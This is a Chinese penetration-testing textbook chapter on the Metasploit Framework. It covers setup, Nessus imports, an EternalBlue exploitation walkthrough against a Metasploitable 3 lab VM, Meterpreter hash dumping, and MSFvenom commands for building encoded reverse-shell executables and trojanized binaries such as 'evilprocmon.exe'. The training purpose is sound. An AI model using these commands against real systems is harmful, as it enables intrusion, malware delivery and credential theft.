









# 第五章：深入了解 Metasploit Framework

Metasploit Framework 是一个使攻击目标机器变得简单的渗透测试平台。它是任何渗透测试人员工具包中不可或缺的直观工具。它由 Rapid7 维护，但在安全社区中有许多贡献者。

在本章中，我们将探索 Metasploit Framework 的模块化和灵活性。由于定期开发新的利用并将其添加到 Metasploit 已经庞大的数据库中，您将学习如何查找和导入这些利用。我们将探索各种有效载荷的选项以及各种 shell 之间的区别。通过使用已经存在的利用，而不是编写自己的利用，可以提高您在 Metasploit 中的技能，使渗透测试变得简单。

随着本章的进行，您将学习以下内容：

+   介绍 Metasploit

+   查找模块

+   添加模块

+   Metasploit 选项 shell 和有效载荷

+   使用 MSFvenom

# 技术要求

本章需要以下技术要求：

+   Kali Linux 2019.1

+   Metasploit Framework 版本 5

+   Metasploitable 3 虚拟机

# 介绍 Metasploit

Metasploit 被归类为世界上使用最广泛的渗透测试软件。它是一个渗透平台，使您能够通过查找、利用和验证漏洞来处理漏洞。它由 Rapid7 维护，并分为两个版本，Metasploit Pro 和社区版称为 Metasploit Framework。当然，Pro 版中有更多的功能，但不容忽视的是社区版中可用的功能。Metasploit Framework 中包含的功能将为您提供足够的知识，以了解如何使用 Metasploit Framework 以及通过利用它在渗透测试中可以实现什么。

Metasploit 的架构是灵活和模块化的，这有助于开发人员在漏洞被公布时创建可工作的利用。Metasploit 的界面直观，并提供了一种运行被安全社区信任的利用代码的方式。与尝试编写自己的利用相比，使用 Metasploit 可以节省您在渗透测试中的时间。正如您在第一章中学到的，*渗透测试简介*，渗透测试是有时间限制的。因此，花时间编写自己的利用可能会浪费宝贵的时间，这些时间可以用于其他任务。

并非所有的利用都会按设计工作；有些可能会带来更多的危害。在使用互联网上可用的利用时，保持警惕是很重要的。

在 Kali Linux 2019.1 中，Metasploit Framework 的版本是 5。版本 5 引入了一些新功能，例如以下内容：

+   支持 Go、Python 和 Ruby 语言的模块

+   新数据库和自动化 API

+   新的`逃避`模块和库

+   在`exploit`模块中使用`file://`选项的多个主机功能

您可以在 Rapid7 的帖子中阅读完整的发布说明：[`blog.rapid7.com/2019/01/10/metasploit-framework-5-0-released/`](https://blog.rapid7.com/2019/01/10/metasploit-framework-5-0-released/)。

在 Metasploit Framework 中存在几种类型的模块，如下所定义：

+   **利用模块**：使用利用模块，在目标上执行一系列命令，利用特定的漏洞。通常，这种技术使用已经被发现并公开发布的漏洞来获取对目标的访问权限。利用模块的示例包括**代码注入**、**缓冲区溢出**和网络上的利用。

+   **辅助模块**：`辅助`模块中没有有效载荷。相反，使用与利用不直接相关的随机措施。例如，`辅助`模块可以执行用户或共享的枚举扫描。`模糊器`和`服务器捕获`模块是`辅助`模块的其他示例。

+   **后渗透模块**：后渗透模块允许您收集额外信息或提升对目标系统的访问权限。这些模块的一些示例包括**哈希转储**（我们将在第六章*，理解密码攻击*中介绍）和**服务**和**应用程序枚举器**。

+   **有效载荷**：有效载荷是在成功攻击系统后执行的 shellcode。有效载荷的目的是定义您希望如何连接到目标系统 shell 以及在获得控制后要执行的操作。例如，您可以打开一个 Meterpreter 会话。Meterpreter 是一个具有内存中 DLL 注入的高级有效载荷，因此它永远不会触及磁盘。

+   **NOP 生成器**：使用 NOP 生成器，您可以创建一个随机字节范围，允许您绕过标准入侵检测和预防设备中的 NOP 滑坡签名。

让我们从一些初始配置步骤开始使用 Metasploit 框架。在 Kali Linux 中的终端窗口中使用命令启动 Metasploit 框架：`msfconsole`**.**

# 更新 Metasploit 框架

过去，更新 Metasploit 框架需要在启动应用程序后运行`msfupdate`命令。现在 Metasploit 框架默认包含在 Kali Linux 中，您可以通过运行以下命令来更新它：

```
apt update && apt install metasploit-framework
```

这将安装最新版本的 Metasploit 框架。

# 将 Metasploit 框架链接到数据库

Metasploit 提供对支持 PostgreSQL 的后端数据库的支持。

如果您只想运行 Metasploit 框架而不需要数据库，那么您不需要数据库，但如果您想查看您收集的数据，那么创建数据库将非常有用。创建数据库使用以下步骤完成：

1.  首先，您需要使用 Kali Linux 中的终端窗口使用`service PostgreSQL start`命令启动 PostgreSQL 服务。

1.  一旦服务启动，我们需要定义将连接到我们将创建的数据库的 Metasploit 用户名和密码。为了为数据库创建用户名和密码，我们需要迁移到 PostgreSQL 用户。这是使用`su postgres`命令完成的。您会注意到您的提示现在变成了`postgres@kali:~#`。现在，我们将使用`createuser [name] -P`命令创建一个用户。按照提示并定义一个密码。在我的设置中，我使用了`msf_user`用户名，如下面的截图所示：



图 1：为 PostgreSQL 数据库创建用户

1.  现在，我们使用`created --owner=[name] [database]`命令创建数据库。在我的设置中，我使用了`msf_user`用户名，并且数据库名为`msf_database`，如下面的截图所示：


图 2：创建数据库并将用户链接到数据库

1.  接下来，我们将使用`msfconsole`命令打开 Metasploit 框架。一切加载完成后，我们将使用以下命令连接到刚刚创建的数据库：

```
 db_connect [username]:[password]@127.0.0.1/[database name] 
```

例如，我们可以使用`db_connect msf_user:password@127.0.0.1/msf_database`，如下面的截图所示：



图 3：连接到刚刚创建的数据库

1.  为了使 Metasploit 自动连接到数据库，我们需要编辑位于`/usr/share/metasploit-framework/config/`的`database.yml`文件，如下面的截图所示*.*

在编辑`database.yml`文件之前，请确保退出 Metasploit 框架。

如果您没有该文件，可以修改示例文件并添加您创建的数据库的详细信息以及用户登录详细信息。将文件保存为`database.yml`。



图 4：修改 database.yml 文件

1.  文件修改后，可以再次启动 Metasploit Framework，并使用`db_status`命令检查数据库连接。如果一切正常，您将看到一条消息显示 Metasploit 连接到哪个数据库，如下截图所示：



图 5：在 Metasploit Framework 中检查数据库连接

如果在运行 Metasploit Framework 之前未启动 PostgreSQL 服务，则在打开 Metasploit Framework 时，您将收到数据库连接错误。

数据库允许您存储诸如主机数据和利用结果之类的信息。让 Metasploit 将数据存储在数据库中使您能够在将来参考结果。

# 增强您在 Metasploit 中的体验

使用 Metasploit 的`workspaces`功能使您能够在执行渗透测试时组织您的动作。例如，如果您正在针对不同部门执行各种任务，您可以为每个部门创建一个`workspace`，如下截图所示：



图 6：创建和删除工作空间

创建`workspace`的命令是`workspace -a [name]`，要删除它，我们使用`workspace -d [name]`**。**要在工作空间之间切换，可以使用`workspace [name]`命令。请注意，您可以在一行内使用空格分隔名称来定义多个工作空间。

Metasploit 使您能够导入诸如 Nmap 或 Nessus 运行的扫描之类的扫描。在第三章中，*执行信息收集*，您可能已将 Metasploitable 3 的 Nmap 扫描导出到`.xml`文件。为了将其导入 Metasploit Framework，您可以使用`db_import [文件路径]`命令，如下截图所示：


图 7：导入 Nmap 扫描

要将 Nmap 导出的 XML 文件转换为 HTML，您可以利用此命令：`xsltproc <nmap-output.xml> -o <nmap-output.html>`。

Metasploit 具有一个 Nessus 桥，可以让您连接到 Nessus 数据库并直接将扫描导入 Metasploit。让我们使用在第三章中执行的扫描进行导入，执行信息收集：

1.  从终端窗口，使用`msfconsole`命令打开 Metasploit Framework。框架加载后，我们将使用`load nessus`命令加载 Nessus 桥插件。接下来，您需要连接到您的 Nessus 数据库。确保 Nessus 服务正在运行，然后使用`nessus_connect username:password@IP`命令进行连接，如下截图所示。在我的设置中，我将数据库本地化在 Kali 上，因此我使用回环地址`127.0.0.1`：


图 8：在 Metasploit Framework 中连接到 Nessus 数据库

1.  连接到 Nessus 数据库后，您可以通过输入`nessus_scan_list`命令查看扫描列表，如下截图所示：


图 9：查看 Nessus 扫描列表

1.  使用`nessus_db_import scanid`命令将扫描导入 Metasploit Framework，如下截图所示：


图 10：导入 Nessus 扫描

导入扫描后，您现在可以查看漏洞列表并进行搜索，以找出 Metasploit 覆盖的哪些漏洞。

使用`hosts -c address`命令，`vulns`会给我们列出每个主机的漏洞列表，使用`vulns`命令将显示漏洞的完整列表和具有这些漏洞的主机的 IP 地址。您会注意到，在下面的屏幕截图中，Metasploitable 3 虚拟机有许多漏洞，这些漏洞是从 Nessus 导入的：


图 11：Nessus 发现的漏洞显示

现在，我们可以针对 Nessus 数据库导入搜索特定漏洞。例如，使用`vulns -S eternalblue`命令，我们可以搜索一个众所周知的漏洞，如下面的屏幕截图所示：



图 12：在 Nessus 扫描中搜索漏洞

请注意，输出显示了主机的 IP 地址和与搜索查询相关的漏洞。

# 使用 Metasploit 对远程目标进行利用

现在我们已经从 Nessus 导入了数据，并且了解了如何使用 Metasploit Framework 中的功能，让我们对 Metasploitable 3 虚拟机进行漏洞利用。

我们将使用`ms17_010_eternalblue`漏洞。我们已经确定 Metasploitable 3 虚拟机对此漏洞存在漏洞：

1.  使用`msfconsole`命令从终端窗口打开 Metasploit Framework。

1.  加载 Metasploit Framework 后，使用`use exploit/windows/smb/ms17_010_eternalblue`命令并按*Enter*。

1.  使用`set RHOSTS [IP]`命令定义目标（即您的 Metasploitable 3 虚拟机的 IP 地址）。

1.  我们将使用 Meterpreter 有效载荷，因为这将在本章后面使用。使用`set payload``windows/x64/meterpreter/reverse_tcp`命令定义有效载荷。注意所有的设置选项，如下面的屏幕截图所示：


图 13：定义的漏洞利用选项

1.  一旦您定义了选项，您可以使用`exploit`命令运行漏洞利用，如下面的屏幕截图所示：


图 14：漏洞利用已成功完成

现在您已经建立了与 Metasploitable 3 虚拟机的远程会话。

您将在本章后面使用此会话。

# 查找模块

在对各种目标进行渗透测试时，您可能会遇到 Metasploit 没有可用的漏洞利用的情况。也许您还没有遇到这种情况，但是您希望保持 Metasploit 数据库的最新状态。在任何情况下，了解**在哪里找到**模块以及**如何添加**它们到 Metasploit 是一项有用的技能。有许多公共存储库可供下载模块。这些网站将是您寻找 Metasploit 模块的首要资源。

# Exploit-DB

我们将首先看一下 Exploit Database（通常称为**Exploit-DB**）。您会从上一章（*执行信息收集*）中认识到 Exploit-DB，当时我们使用 Google dorks 进行工作。可以直接访问 Exploit-DB：[`www.exploit-db.com`](https://www.exploit-db.com)。

网站有一个名为**exploits**的部分，您可以在其中找到由安全公司和个人发布的模块。该网站具有验证模块（V）、下载模块（D）和下载易受攻击应用程序（A）的功能（如果适用）。这在标题栏中显示为 D、A 和 V，如下面的屏幕截图所示：


图 15：Exploit-DB 显示漏洞列表

请注意，模块跨越多个平台和类型。

# Rapid7 漏洞数据库

Rapid7 是另一个公共资源，您可以在那里获取模块（*见*图 16）。 此存储库可在[`www.rapid7.com/db/modules`](https://www.rapid7.com/db/modules)访问。

Rapid7 的漏洞利用数据库与 Exploit-DB 非常相似； 但是，它不包含诸如 Google Hacking Database 之类的其他功能：


图 16：Rapid7 的漏洞利用数据库

Rapid7 还列出了漏洞，并将它们链接到相关的漏洞利用。 以下示例显示了 CVE-2019-8943 Wordpress 漏洞和漏洞利用链接：


图 17：与漏洞利用相关的漏洞

单击漏洞利用后，您可以查看有关漏洞利用的完整详细信息以及其可用选项。

# 0day.today

0day.today 是另一个存储许多模块的仓库。 0day.today 的不同之处在于可以购买到一些可用的漏洞利用，如下面的屏幕截图所示。 一些付费的漏洞利用声称可以执行诸如 Snapchat 接管和 Facebook 群组窃取之类的活动。 还有其他可免费使用的漏洞利用：


图 18：0day.today 漏洞利用数据库

0day.today 可在[`0day.today/`](https://0day.today/)访问。

# 添加模块

现在我们已经介绍了如何为 Metasploit Framework 查找模块，让我们深入了解如何添加模块。 我们将使用涵盖 Wordpress 5.0.0 的漏洞利用的模块 - Crop-image Shell Upload（Metasploit）。 此漏洞利用的直接链接为[`www.exploit-db.com/exploits/46662`](https://www.exploit-db.com/exploits/46662)。

在下载漏洞利用之前，我们将验证它当前是否存在于 Metasploit Framework 中。 为此，我们可以使用`search`命令（*见*图 19）。 此命令允许您搜索特定模块：


图 19：搜索与裁剪图像相关的模块

由于没有结果，我们将退出 Metasploit Framework 并下载模块以添加它。 使用前面的直接链接，您可以使用下载功能来下载实际的模块，如下面的屏幕截图所示：


图 20：从 Exploit-DB 下载漏洞利用

Metasploit Framework 中的所有模块都位于`/usr/share/metasploit-framework/modules`中。由于这是一个`exploit`，与`http`相关，我已将其放置在`/usr/share/metasploit-framework/modules/exploits/multi/http`路径中，如下面的屏幕截图所示：


图 21：下载的漏洞利用的位置

当您打开 Metasploit Framework 并执行搜索时，将显示新添加的`exploit`，如下面的屏幕截图所示：


图 22：漏洞利用添加到 Metasploit 数据库

您还可以使用`loadpath`命令来加载新添加的模块，例如，`loadpath /usr/share/metasploit-framework/modules`。

# Metasploit 选项、shell 和有效载荷

当您选择不同的漏洞利用时，Metasploit 具有许多选项、shell 和有效载荷。

覆盖所有漏洞利用中的所有可能选项不在本书的范围内，但我将解释如何查找选项并讨论常用的选项。 了解各种 shell 和有效载荷选项非常重要。

# 选项

Metasploit Framework 中的不同模块使用不同的选项。 例如，登录扫描模块将包含选项，如`userpass_file`、`pass_file`和`user_file`。 在下面的屏幕截图中，您将注意到`auxiliary/scanner/ssh/ssh_login`模块的选项：



图 23：SSH 登录扫描仪选项

要查看特定模块的选项，可以使用`show options`命令。要设置选项，您将使用`set`命令。您经常使用的最常见选项如下：

+   **RHOST**：这指的是您想要利用的远程主机。这告诉 Metasploit 您想要攻击哪个系统，因此这是一个必须定义的强制性字段。

+   **RPORT**：这定义了您想要攻击的远程端口。一些模块可能已经将此字段定义为利用的默认值。例如，使用`ms17_010_eternalblue`模块将会将 RPORT 值定义为`445`。您真正修改 RPORT 值的唯一时机是如果目标使用自定义端口，例如使用端口`2222`进行 SSH，而不是端口`22`。

+   **LHOST**：这是您希望目标机器连接的 IP 地址。请记住您所在的位置；如果您正在穿越公共网络，那么您将需要定义您的公共 IP 并配置端口转发，以便来自目标机器的返回流量可以到达您的系统。不要配置诸如`localhost`、`0.0.0.0`或`127.0.0.1`之类的值，因为这将指示目标连接到自身。

+   **LPORT**：这是您系统上希望目标连接的本地端口。

Metasploit 非常直观，会为各个模块中存在的每个选项提供描述。您将在前面的截图中注意到这一点。

# Shell

Metasploit 框架中存在两种类型的 shell，即**绑定 shell**和**反向 shell**。

**绑定 shell**在目标机器上打开一个新的服务，并需要您连接到它以获得 shell。这些 shell 的问题在于防火墙默认会阻止随机端口的连接，因此绑定 shell 不如**反向 shell**有效。

**反向 shell**将连接推送回攻击机器，而不是等待您连接。它要求首先在攻击机器上设置监听器，以便它可以监听来自目标机器的连接。一个常见的做法是在端口`80`或`443`上设置监听器。这些端口分别与`http`和`https`直接相关，并与日常网络流量相关联。阻止这些端口根本不可行，因此使它们成为反向 shell 连接的主要目标。

# 有效载荷

Metasploit 框架拥有大量的有效载荷，可用于各种场景。可以使用`show payloads`命令查看当前的**有效载荷**。运行此命令时，一些有效载荷将具有相同的名称，并且看起来好像执行相同的操作；但实际上是有区别的。例如，如果您查看`windows/shell/reverse_tcp`和`windows/shell_reverse_tcp`有效载荷，斜杠`/`告诉我们这是一个分阶段的有效载荷，下划线`_`告诉我们这是一个单一的有效载荷。

**分阶段有效载荷**是由两个主要组件组成的有效载荷。这些组件是一个小加载程序和最终阶段有效载荷。**分阶段器**负责拉取其余的分阶段有效载荷。看前面的例子，`windows/shell/reverse_tcp`将执行两个功能。首先，它将发送加载程序，一旦加载程序被执行，它将请求处理程序（攻击者）发送最终阶段有效载荷。完成后，您将获得一个 shell。示例见下图：



图 24：一个 Eternalblue 分阶段有效载荷

**单一有效载荷**是一种一次性有效载荷。此有效载荷包含加载程序和有效载荷。使用此类型的有效载荷时，加载程序和有效载荷将同时发送到目标。

**Meterpreter**是一个提供交互式 shell 的攻击载荷。在这个 shell 中，攻击者可以探索目标并执行代码。它是使用内存中的 DLL 注入部署的。这导致 Meterpreter 完全在内存中运行，不会触及目标的本地磁盘。Meterpreter 将自身注入到其他运行的进程中，使其取证痕迹非常小。它旨在规避其他载荷可能存在的缺点，比如可能触发警报，可能会提醒目标您的活动。

如果你考虑一个反向 shell，它的目的相对简单：获得一个 shell。这可能是你的首选，但对各种类型的载荷有很好的了解将有助于您选择最佳的选项进行渗透测试。例如，使用`windows/meterpreter/reverse_tcp`载荷是稳定的并且有效，但是使用`windows/meterpreter/reverse_https`是更强大的选择。为什么呢？`windows/meterpreter/reverse_https`载荷提供了更多功能，比如具有加密通道（使其更难以检测）。

Meterpreter 提供了远程控制文件系统的能力。使用这个功能，你可以上传文件到目标并下载文件。在下面的截图中，我正在使用 Meterpreter 中的**上传**功能来上传一个恶意版本的`procmon.exe`。`getwd`命令用于显示目标系统上的当前工作目录。`getlwd`命令用于显示本地系统的工作目录。


图 25：利用 Meterpreter 的上传功能

Meterpreter 有许多可以使用的后渗透模块。可以使用`search post`命令找到这些模块。在下面的截图中，我正在使用`post`模块，该模块列举了已登录的用户。请注意，它将保存结果在`loot`文件夹中，因此您可以在以后再次参考这些结果。



图 26：在 Meterpreter 中使用后渗透模块

Meterpreter 的另一个特性是`hashdump`命令。该命令会转储系统的当前哈希值，您可以将其复制到文本文件中进行离线密码破解，如下面的截图所示。


图 27：使用 hashdump 命令转储目标系统的当前哈希值

前面的哈希值是从 Metasploitable 3 虚拟机中转储出来的。请保留这些，因为您将在第六章中再次使用它们，理解密码攻击。我将它们保存为`Meta3-hashes.txt`。

Meterpreter 有很多功能。在进行各种渗透测试时，您将在不同的场景中利用不同的功能。

# 使用 MSFvenom

在本章的前面，我们专注于使用 Metasploit Framework 来利用目标系统上的漏洞并控制它。使用 MSFvenom，您不是依赖系统中的漏洞，而是旨在利用所有组织中最常见的安全问题：用户。这是一个永远无法完全修补的漏洞。

MSFvenom 基本上用于构建 shellcode。Shellcode 可以定义为当运行时，创建一个反向远程 shell 返回给攻击者的代码。

将 shellcode 插入文件中，然后将该文件发送到目标。这可以通过钓鱼活动来完成，就像我们在《社交工程大师》[第四章]中学到的那样。一旦运行文件，您就可以远程访问目标计算机。现实世界的攻击者也利用这种技术。Shellcode 不仅限于文件，还可以插入软件中。这在您可能在移动设备应用商店中找到的恶意应用程序中很常见。远离钓鱼和软件，shellcode 还可以嵌入到被入侵的网站中。因此，当有人浏览网站时，恶意软件可以加载到他们的计算机上，从而使其受到威胁。

在早期版本的 Metasploit 中可以使用`msfpayload`和`msfencode`命令构建 shellcode。这些服务现在已经与`msfvenom`实用程序合并并替换。如果你习惯了旧工具，`msfvenom`不是问题，因为几乎没有修改。

使用 MSFvenom 有一些优势：

+   有一个单一的工具来生成跨平台的 shellcode。

+   命令行选项是标准化的。

+   创建 shellcode 的速度增加，使您能够使用应用程序作为模板。

要使用 MSFvenom，您需要在 Kali Linux 的终端窗口中输入`msfvenom`命令。该应用程序将向您呈现一系列可用选项。其中一些最重要的选项如下：

+   `-p`用于选择 Metasploit 有效载荷。有许多可用的有效载荷；这些支持 Windows、Linux、Mac 等。定义有效载荷的示例如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -f exe -o shell.exe
```

在这个例子中，我们使用了`windows/meterpreter/reverse_tcp`有效载荷，定义了本地主机和 IP 地址。使用`-f`选项定义输出格式为`.exe`，使用`-o`选项将输出文件保存为`shell.exe`。

+   `-e`用于选择编码器。编码器是一种算法，可用于重新编码有效载荷。这用于混淆有效载荷的意图。您可以使用`msfvenom -l encoders`命令找到编码器列表。使用编码器的示例如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

在这个例子中，选择的编码器是`shikata_ga_nai`，定义的迭代次数是`3`，使用了`-i`选项。

+   `-x`用于定义要用作模板的自定义可执行文件。使用此选项，您可以获取合法文件并创建其恶意版本，从而获得远程 shell。使用示例如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -x procmon.exe -f exe -o evilprocmon.exe
```

在这个例子中，`putty.exe`被用作模板，创建了一个恶意版本的`evilputty.exe`。

# 总结

在本章中，我们看了一下 Metasploit 框架。我们定义了它可以用来做什么，并探讨了包括的各种类型的模块。我们完成了一些 Metasploit 的初始任务，并看了我们可以获取新模块的地方。利用 Metasploit 的灵活性，我们从其他来源（如 Nmap 和 Nessus）导入了数据，并探索了 Metasploit 的核心组件。最后，我们看了如何在创建 shellcode 时使用 MSFvenom。

您现在可以执行 Metasploit 框架的初始配置。您已经学会了执行一些初始设置任务，如更新 Metasploit 框架并将其链接到数据库。您已经学会了如何通过使用工作区和从 Nmap 和 Nessus 等工具导入数据来增强在 Metasploit 框架中的体验。您已经学会了在哪里获取新模块以及如何安装它们。您已经了解了 Metasploit 的主要选项以及 shell 和有效载荷之间的区别。最后，在本章中，您已经学会了如何使用 MSFvenom 利用 shellcode。

在下一章（第六章，*理解密码攻击*）中，我们将探讨各种类型的密码攻击以及从哪里获取密码列表。我们将利用 Kali Linux 内置工具进行一些密码破解和凭据转储。

# 问题

1.  Metasploit Framework 版本 5 中引入的一个关键特性是什么？

1.  至少列举三个存在于 Metasploit Framework 中的模块。

1.  列举两个可以导入 Metasploit Framework 的外部数据源。

1.  至少列举两个可以下载额外模块的公共存储库。

1.  绑定 shell 和反向 shell 之间有什么区别？
